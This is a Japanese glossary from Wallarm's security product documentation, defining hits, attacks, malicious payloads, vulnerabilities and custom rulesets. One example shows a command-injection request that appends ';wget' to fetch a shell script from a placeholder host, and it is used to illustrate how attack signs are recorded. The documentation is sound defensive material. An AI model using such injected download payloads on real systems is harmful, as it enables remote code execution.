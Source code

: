 # 用語集

用語集では、Wallarmの主要なエンティティについて説明して、プラットフォームへの理解を深める手助けをしています。

## ヒット

ヒットとは、シリアライズされた悪意のあるリクエスト（元の悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）を意味します。例：

![!Hit example](images/user-guides/events/analyze-attack-raw.png)

[ヒットパラメータの詳細](user-guides/events/analyze-attack.ja.md#analyze-requests-in-an-attack)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです。

* 同じ攻撃タイプ、悪意のあるペイロードが含まれるパラメータ、およびヒットが送信されたアドレス。ヒットは、同じIPアドレスまたは別のIPアドレスから来ることがあり、また、1つの攻撃タイプ内で悪意のあるペイロードの値が異なる場合があります。

    このヒット分類方法は基本的で、すべてのヒットに適用されます。
* 同じソースIPアドレス（適切な[トリガー](user-guides/triggers/trigger-examples.ja.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効になっている場合）。他のヒットパラメータの値が異なることがあります。

    このヒット分類方法は、Brute force、Forced browsing、BOLA（IDOR）、Resource overlimit、Data bomb、およびVirtual patch攻撃タイプを除くすべてのヒットに適用されます。

    ヒットがこの方法でグループ化されている場合、[**誤検知としてマーク**](user-guides/events/false-attack.ja.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.ja.md#active-threat-verification)オプションは、攻撃に使用できません。

上記のヒット分類方法は相互に排他的ではありません。ヒットが両方の方法の特徴を持っている場合、それらはすべて1つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![!Attack with one hit](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![!Attack with several hits](images/glossary/attack-with-several-hits-example.png)

## 悪意あるペイロード

元のリクエストの一部で、以下の要素を含むものです。

* 攻撃サインがリクエストで検出されている場合。同じ攻撃タイプを特徴付けるいくつかの攻撃サインがリクエストで検出された場合、最初のサインだけがペイロードに記録されます。
* 攻撃サインのコンテキスト。コンテキストは、検出された攻撃サインの前後にある一連の記号です。ペイロードの長さに制限があるため、攻撃サインが全ペイロードの長さを持っている場合、コンテキストは省略されることがあります。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードでは、`;wget+`が[RCE](attacks-vulns-list.ja.md#remote-code-execution-rce)攻撃サインであり、ペイロードの他の部分は攻撃サインのコンテキストです。

攻撃サインは、[行動攻撃](about-wallarm/protecting-against-attacks.ja.md#behavioral-attacks)の検出には使用されないため、行動攻撃の一部として送信されるリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装において、不注意や情報不足によるエラーで、情報セキュリティ上のリスクにつながるものです。

情報セキュリティ上のリスクには以下のようなものがあります。

* 不正なデータアクセス；例えば、ユーザーデータの読み取りや変更など。
* サービス拒否。
* データ破損その他。

インターネットのトラフィックは脆弱性を検出するために利用され、Wallarmのその他の機能もこれに対応しています。

## セキュリティインシデント

セキュリティインシデントとは、脆弱性を悪用する発生事象のことです。インシデントは、確認済みの脆弱性を対象とした[攻撃](#attack)です。

インシデントは攻撃と同様に、システム外部のエンティティであり、システム自体の特性ではなく、インターネットの外部の特性です。既存の脆弱性を対象とした攻撃は少数派ですが、情報セキュリティの観点から最も重要です。Wallarmは、既存の脆弱性を対象とした攻撃を自動的に検出し、それらを別のオブジェクトとして表示しています。

## 循環バッファ
循環バッファとは、単一の固定サイズバッファを端から端まで接続されているかのように使用するデータ構造です。
[ウィキペディア](https://en.wikipedia.org/wiki/Circular_buffer)を参照してください。

## カスタムルールセット（以前の用語はLOM）

カスタムルールセットとは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用することで、トラフィック処理のための個別のルールを設定できます。例：

* Wallarm Cloudにアップロードする前に機密データをマスクする
* 正規表現ベースの攻撃インジケーターを作成する
* アクティブな脆弱性を悪用するリクエストをブロックする仮想パッチを適用する
* 特定のリクエストでの攻撃検出を無効にするなどです。

カスタムルールセットはデフォルトで空ではなく、Wallarm Cloudに登録されたすべてのクライアントのルールが含まれています。例えば、[**Settings → General**タブ](user-guides/settings/general.ja.md)で設定された値のフィルタリングモードルールが含まれています。

[カスタムルールセットの詳細](user-guides/rules/intro.ja.md)

## 無効なリクエスト
フィルターノードでチェックされ、LOMルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシとは、クライアントに代わってサーバーからリソースを取得し、リソースをWebサーバー自体から来たかのようにクライアントに返すプロキシサーバーの一種です。
[ウィキペディア](https://en.wikipedia.org/wiki/Reverse_proxy)を参照してください。

## 証明書認証局
証明書認証局とは、デジタル証明書を発行する機関です。
[ウィキペディア](https://en.wikipedia.org/wiki/Certificate_authority)を参照してください。
